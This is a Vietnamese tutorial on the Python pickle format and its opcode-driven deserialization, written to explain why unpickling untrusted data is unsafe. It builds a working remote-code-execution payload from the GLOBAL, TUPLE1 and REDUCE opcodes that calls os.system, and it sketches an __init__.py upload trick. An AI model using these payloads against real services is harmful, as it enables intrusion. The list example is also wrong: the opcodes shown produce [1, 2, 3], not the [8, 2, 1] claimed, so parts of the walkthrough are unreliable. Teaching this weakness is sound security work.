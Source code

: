 # Cách mà pickle deserialize dữ liệu

## Serialize và deserialize

Todo 😉

## Pickle format
Quá trình serialize dữ liệu (số nguyên, list, dictionary, ...) của pickle sẽ cho ra một dãy byte. Nên khi deserialize ta sẽ xem xét một dãy byte. Các byte liên quan khi gộp lại sẽ thành opcode, một opcode sẽ thực hiện một thao tác. Như vậy ta sẽ có dãy các opcode. Dãy opcode đó khi cần deserialize thì sau khi đi qua một machine gọi là pickle machine (PM) sẽ xây dựng được thành một object Python phức tạp.

PM có hai trường dữ liệu, `stack` và `memo`:
- `memo`: nơi giúp lưu lại một số kết quả để tối ưu cho quá trình.
- `stack`: đúng như tên gọi của nó, nó sử dụng cấu trúc dữ liệu stack. Ta sẽ tập trung vào đây hơn là `memo`.

Một vài opcode sẽ có tác dụng đẩy object vào `stack` hoặc lấy object ra khỏi `stack`. Cho tới khi gặp opcode cho lệnh `STOP` được thực thi. Những gì còn lại trong `stack` sau khi thực thi lệnh `STOP` sẽ là output của quá trình deserialize.

## Quá trình deserialize
Opcode sẽ gồm hai phần, phần đầu là một byte thể hiện loại thao tác, heo sau đó là các argument. Mỗi argument kết thúc bằng ký tự `\n` (new line). Dấu chấm `.` sẽ thể hiện cho `STOP`.

Ví dụ: để deserialize được ra string `'abcdefgh2808'`. Ta có byte thể hiện loại thao tác là `S` (thể hiện đẩy vào `stack` một string) và argument là `'abcdefgh2808'`. Và kết thúc opcode bằng `\n` rồi kết thúc quá trình deserialize bằng dấu chấm `.`. Ta được: `S'abcdefgh2808'\n.`

```
>>> import pickle
>>> pickle.loads("S'abcdefgh2808'\n.")
'abcdefgh2808'
```

Trong `stack` sẽ có như sau:
```
abcdefgh2808
```

:v Ví dụ này hơi đơn giản nên `stack` cũng đơn giản nốt. Nó bỏ string kia vô `stack` rồi gặp `.` nên `STOP` luôn. Ta sẽ thử ví dụ sau cho dễ hiểu hơn.

Ví dụ: Để xây dựng list `[8, 2, 1]`, sẽ có ký tự `(` để thể hiện bắt đầu list và `l` để thể hiện kết thúc list. Ta sẽ có chuỗi opcode như sau:

```
>>> pickle.loads("(I1\nI2\nI3\nl.")
[8, 2, 1]
```

Khi xét đoạn `(I1\nI2\nI3\n`, `stack` của ta như sau:
```
1
2
8
(
```

Sau đó khi gặp ký tự `l` PM sẽ lấy hết những thứ sau `(` bỏ vào list và ta được `stack` như sau:
```
[8, 2, 1]
```

Dấu `(` cũng bị đẩy ra khỏi stack.

Nested list cũng được xây dựng tương tự như thế: 
```
>>> pickle.loads(b"(S'abcdefgh2808'\n(I1\nI2\nS'3'\nll.")                                                                                                                                                          ['abcdefgh2808', [1, 2, '3']]
```

Ngoài ra, pickle cũng có nhiều ký tự đại diện cho các [lệnh](https://github.com/python/cpython/blob/main/Lib/pickle.py) khác:

![Oops](./images/some_opcodes.jpg)

Mỗi ký tự sẽ có một tên khác: Ví dụ `(` có tên là `MARK`.

## Vấn đề của pickle
Khi deserialize nó thực thi một số lệnh, và trong các lệnh đó có một vài lệnh không an toàn để sử dụng. Ví dụ như:
```python
REDUCE         = b'R'   # apply callable to argtuple, both on stack
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
STACK_GLOBAL   = b'\x93'  # same as GLOBAL but using names on the stacks
TUPLE1         = b'\x85'  # build 1-tuple from stack top
```

Cụ thể:
- `REDUCE` được dùng để gọi callable. Callable là những gì có thể được gọi, điển hình là hàm. Chú ý là cả callable và argument tuple của callable đó đều được lấy từ `stack`. Do đó attacker có thể sử dụng nó để thực thi code. Ở ví dụ phía dưới, mình sẽ lấy callable là `os.system` và tuple là `('ls',)`. Thì khi gọi được callable ta sẽ thực thi được lệnh `ls` trên shell.
- `GLOBAL` và `STACK_GLOBAL` được dùng để gọi `self.find_class()` có tác dụng tìm thuộc tính của một object và trả về nó. Ta có thể lợi dụng nó để tìm thuộc tính thành viên là một hàm để hỗ trợ cho `REDUCE`.

    ```python
    def find_class(self, module, name):
        # Subclasses may override this.
        sys.audit('pickle.find_class', module, name)
        if self.proto < 3 and self.fix_imports:
            if (module, name) in _compat_pickle.NAME_MAPPING:
                module, name = _compat_pickle.NAME_MAPPING[(module, name)]
            elif module in _compat_pickle.IMPORT_MAPPING:
                module = _compat_pickle.IMPORT_MAPPING[module]
        __import__(module, level=0)
        if self.proto >= 4:
            return _getattribute(sys.modules[module], name)[0] # Là getattr(sys.modules[module], name) nhưng có thêm vài tính năng khác
        else:
            return getattr(sys.modules[module], name)
    ```

    Ta thấy rằng `find_class(module, name)` sẽ import một module rồi trả về `getattr(sys.modules[module], name)`. Ta có thể sử dụng nó để `import os` rồi lấy hàm `system` để thực hiện RCE.

    ```
    >>> import pickle                                                                                                       >>> import sys                                                                                                          >>>                                                                                                                     >>> __import__('os', level=0)                                                                                           <module 'os' from '/usr/lib/python3.8/os.py'>                                                                           >>> getattr(sys.modules['os'], 'system')                                                                                <built-in function system> 
    >>>                                                                                             >>> pickle.loads(b"cos\nsystem\n.")    # ở đây sử dụng GLOBAL để demo, có thể sử dụng STACK_GLOBAL cũng được, nhưng sẽ cần thay đổi byte                                                                                 <built-in function system>
    ```

    `system` chính là callable mà ta hướng tới.
- Ta đã có callable rồi, bây giờ ta cần argument tuple nữa. Ta sẽ dùng `\x85` để tạo tuple `('ls',)` như sau:
    ```
    >>> pickle.loads(b"S'ls'\n\x85.")                                                                                       ('ls',)
    ```

- Kết hợp mọi thứ lại ta có:
    ```
    >>> pickle.loads(b"cos\nsystem\nS'ls'\n\x85R.") 
    bin   dev  home  ...
    ```

Vậy là ta đã thực thi được code, là điều mà mọi hacker đều muốn 😁

Ngoài ra, mình cũng từng gặp một concept exploit như sau:
- Upload file `__init__.py` vào một thư mục.
- Sau đó lợi dụng `STACK_GLOBAL` hoặc `GLOBAL` để `__import__()` thư mục chứa file `__init__.py` vào thế là thực thi được code. 🤯

## Pickletools
Trong Python có module `pickletools` với hàm `genops` sẽ giúp con người đọc opcode dễ hơn.
```
>>> import pickletools
>>>
>>> opcode = pickletools.genops(b"cos\nsystem\nS'ls'\n\x85R.")
>>>
>>> for x in opcode:
...     print(x[0].name, x[1])
...
GLOBAL os system
STRING ls
TUPLE1 None
REDUCE None
STOP None
```

## Tham khảo
- https://adrianstoll.com/post/python-in-a-pickle-an-explanation-of-the-python-pickle-format-and-security-problems/
- https://github.com/python/cpython/blob/main/Lib/pickle.py